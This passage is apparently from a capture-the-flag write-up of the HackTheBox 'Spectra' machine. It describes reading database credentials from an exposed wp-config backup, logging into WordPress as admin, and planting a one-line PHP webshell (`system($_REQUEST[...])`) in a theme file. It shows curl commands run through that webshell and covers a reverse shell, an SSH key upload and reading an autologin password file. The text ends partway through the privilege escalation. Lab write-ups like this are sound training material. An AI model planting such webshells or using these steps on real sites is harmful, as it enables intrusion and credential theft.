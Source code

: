 ```text
```

This scan didn't reveal anything useful, I also tried to brute force `administrator` user with a top 1000 passwords list from [SecLists](https://github.com/danielmiessler/SecLists). No luck.

I decided to run the `WPScan` first, while browsing manually the other (testing) instance. Pretty quickly, I figured out that `directory listing` was enabled on this instance, this means that browsing to `http://spectra.htb/testing/` instead of `http://spectra.htb/testing/index.php` gave me the full listing of files on the web root.

From here, I could spot a `wp-config.php.save` file that contained credentials to connect to the database. 

I tried connecting remotely, but MySQL wouldn't allow me to connect from my IP.

Finally, I tried logging on the working Wordpress' instance as `administrator` and with the password I found, and it worked! I was in!

## Exploitation

### Getting Initial Shell
Once you are logged with admin priv on a Wordpress, getting a shell is, as far as I have seen, very easy! Basically, it is about editing a theme (preferably an unused one), and adding a small line of `PHP` in order to get some kind of `RCE`.

In this case, I edited theme `twentyseven`, file `404.php` and added the following line : `echo system($_REQUEST['nes']);`

This means, that I can now run commands like so (directly in browser, or via Curl, Burp, etc) :

`curl http://spectra.htb/main/themes/twentyseven/404.php&nes=whoami`

From here, I like to use Burp, convert the request to `POST` and play around or simply get a better shell. 

On this particular box, I had several issues trying to get a proper shell. 

I decided to upload a full php reverse shell via curl... I then reached that URL to get my reverse shell, and... I couldn't [upgrade it](https://www.masoopy.com/cheatsheets/uprgrading-shells/)! However, I noticed that `nginx` user had a real shell inside `/etc/passwd`, so I uploaded my `ssh key` and connected as `nginx` over `SSH`!

From here, I ran `LinPeas` and spotted (not easily) and interesting file : `/etc/autologin/passwd`

#### Getting user
The password found allowed me to log in as `katie` via ssh, and allowed me to grab the `user flag` :

![Spectra - User Flag](/images/2021/07/Spectra_User_Flag.png)

### PrivEsc
Now that I have user, let's see if I can run sudo, and indeed I can run `sudo /sbin/initctl` without password. I headed over [GTFObins](https://gtfobins.github.io/), but unfortunately there was nothing there.

